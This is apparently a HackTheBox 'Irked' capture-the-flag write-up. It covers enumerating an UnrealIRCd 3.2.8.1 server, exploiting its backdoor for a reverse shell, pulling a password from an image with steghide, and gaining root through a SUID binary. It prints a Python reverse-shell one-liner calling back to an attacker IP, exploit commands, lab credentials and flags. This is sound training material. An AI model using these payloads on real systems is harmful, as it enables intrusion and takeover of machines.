

# Irked 

## Reconnaissance 

### nmap 

- Result 
    - port 22: ssh service
    - port 80: HTTP service 
    - port 111: rpcbind service


- Research about rpc in [hacktrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind)

- It provide 2 command to enumerate the rpc service 

```
rpcinfo irked.htb
```



```
nmap -sSUC -p111 192.168.10.1
```


- After these 2 enumeration, I think there is no any other service like NFS or NIS in here.

### WebService 

- Let me check web service.


- The website shows the message "IRC is almost working".
- So here might a IRC service.
- Research about IRC from [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-irc)


- I think the IRC port is highly possibility locate over the 1024.
- So let's do the nmap again.

```
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 <ip>
```


- It listen on port 6697
- I know the IRC service is UnrealIRCd, but I don't know the actual version.

### Connect to IRC

- According to this [article](https://www.fosslinux.com/47998/best-irc-clients-linux.htm)
- I can use many IRC client software to connect to IRC.
- I choose [hexchat](https://hexchat.github.io/)


- In the connection strings, I found the IRC library version
```
Unreal3.2.8.1
```


## Exploit 

- Search Exploit Code 

```
searchsploit -e "UnrealIRCd 3.2"
```


- Search payload from Github

```
python3 exploit.py -payload bash 10.129.228.147 6697
```
- Check nc Listener, the it will get the reverse shell


- Permission is 'ircd'


### Find other user

- Check the other user and find the user flag 
- Check ```/etc/passwd```


- Check home directory


- Here is another user named: ``` djmardov ```
- The user flag locate in it, but we don't have permission to read it.
### enumerate information about djmardov 

- Contents in djmardov directory


- Check ```.cache``` directory 
- Permission denied


- Check  Desktop directory 
- Empty


- Check Downloads directory
- Empty


- Check Documents directory
- Here is a hide file named ```.backup```


- Check backup file content
- It looks like a password for something
```
UPupDOWNdownLRlrBAbaSSss
```


- Check the ```ircd``` directory


- Check web application directory ```/var/www```


- Move into ```html``` directory 
- Here is a jpg file 


- Download the jpg file to local to analysis
```
wget http://10.129.228.147:80/irked.jpg
```


- Using steghide to analysis the image file 
```
steghide info irked.jpg
```
- There is something embedded in image 


- Extract the file 
```
steghide extract -sf irked.jpg
```


- Check ``` pass.txt ``` , I think that is djmardov's login password

```
Kab6h+m+bbp2J:HG
```


- SSH login 
```
ssh djmardov@10.129.228.147
```
- Check the user permission --> change to djmardov


- Get user flag: 
``` ca6b2d458451ec60ae1d663d3c86f196 ```


## Post Exploitation 

- After get into system with user djmardov, next step is that privilege to root.
- Check ```sudo -l ```, but this victim doesn't provide sudo command 


- Network information


- Crontab information


- SUID check by find 
```
find / -perm -u=s -type f 2>/dev/null
```


- In above result list, I think most of them are set the SUID root binary, and most of them are common binary file except 'viewuser'
- So let's check it detaily.


- Ok, binary file is hard to read.
- Execute it.


- It will list the user and ip address
- And there is an error in the bottom of result.
```
sh: 1: /tmp/listusers: not found
```


- So, it should have a file named listusers in ```/tmp```, but it doesn't exist now.
- Maybe I can create my own one with reverse shell

### Privilege Escalation 

- Create listusers file with reverse shell payload
```
touch listusers
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'" > listusers
chmod 777 listusers
```


- Execute viewuser


- Check nc listener, the reverse shell will be response


- Get root flag:
```
784d48c5e9cc29f49ac382e072e646e7
```


## Reference 

- [(Discussion)HTB-Irked](https://forum.hackthebox.com/t/irked/1094/27)
- [(Writeup)HTB-Irked](https://thehoustonhacker.com/2019/04/27/hackthebox-irked/)

- [(HackTrick)rpcbind](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind)
- [RPC Program Numbers](https://www.iana.org/assignments/rpc-program-numbers/rpc-program-numbers.xhtml)
- [(HackTrick)irc](https://book.hacktricks.xyz/network-services-pentesting/pentesting-irc)
- [Hexchat installation](https://installati.one/install-hexchat-kalilinux/)
- [Hexchat official Site](https://hexchat.github.io/)

### Unreal 3.2.8.1 backdoor


- [(GITHUB)UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)
- [(metasploit)UnrealIRCd 3.2.8.1 Backdoor](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/)

- [Steganography - A list of useful tools and resources](https://0xrick.github.io/lists/stego/#tools) 
- [(GITHUB)steghide](https://github.com/StefanoDeVuono/steghide)
- [Linux Privilege Escalation with SUID files](https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620)
- [Reverse Shell Generator](https://www.revshells.com/)


### TroubleShooting

- [【Ubuntu】「apt update」で「Some index files failed to download. They have been ignored, or old ones used instead.」の表示が出たときの対処方法！](https://nllllll.com/ubuntu/ubuntu-apt-update-error-stui/)
- [Kali apt-get update fails with signature error](https://www.huxxit.com/index.php/2021/08/16/kali-apt-get-update-fails-with-signature-error/)
- [Index of /kali/pool/main/k/kali-archive-keyring](https://http.kali.org/kali/pool/main/k/kali-archive-keyring/)

###### tags: `HackTheBox` `Easy` `linux` `RPC Exploit` `IRC Exploit` `Image hide Information` `Steganography` `Steghide` `SUID` 